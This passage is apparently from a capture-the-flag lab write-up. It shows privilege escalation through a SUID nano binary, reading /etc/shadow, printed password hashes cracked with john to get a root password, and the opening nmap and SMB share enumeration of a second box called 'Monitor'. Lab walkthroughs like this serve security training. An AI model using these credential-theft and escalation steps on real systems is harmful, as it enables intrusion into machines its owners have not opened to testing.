 Now we can log in as jonathan and move onto root.


### PRIV ESC
After running linpeas.sh on the box, it shows a SUID binary `nano`. With this we can read any file on the system. Using this I read the /etc/shadow file and grabbed the hashes.
```
root:$6$yMsg6cpK$q52od6Zj/FhqmmsuVZ7pKvGJ2o2R/kieZ3SQ/QWWbdn2eVFCTewYvjKBd2P4jfsh9IYwelJoPevGpQCsA2NT61:18360:0:99999:7:::
jonathan:$6$yIbWCeV8$tN8fPhAX0UP/tfg46BozCOhAEXTBHDls.4m1jLP0Xwy8YGlmb6MymmHkw7dMyw3oAVokC5MfdEiXzgY60eUw0/:18365:0:99999:7:::
```
Now we can crack with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (root)
```
Now we have the password we can `su root` to spawn a shell as root.


## MONITOR

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 20:29 BST
Nmap scan report for 172.31.1.21
Host is up (0.054s latency).
Not shown: 994 closed ports
PORT     STATE    SERVICE       VERSION
80/tcp   open     http          Indy httpd 18.1.38.11958 (Paessler PRTG bandwidth monitor)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
808/tcp  filtered ccproxy-http
3389/tcp open     ms-wbt-server Microsoft Terminal Services

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.97 seconds
```

### SMB
First thing to check is for null/guest session on smb, and here we see a "WebBackups" share.
```
smbclient -L 172.31.1.21
Enter WORKGROUP\corn's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WebBackups      Disk      
SMB1 disabled -- no workgroup available
```
Inside here is a zip, so let's grab it and unzip it.
```
smbclient -H \\\\172.31.1.21\\WebBackups
```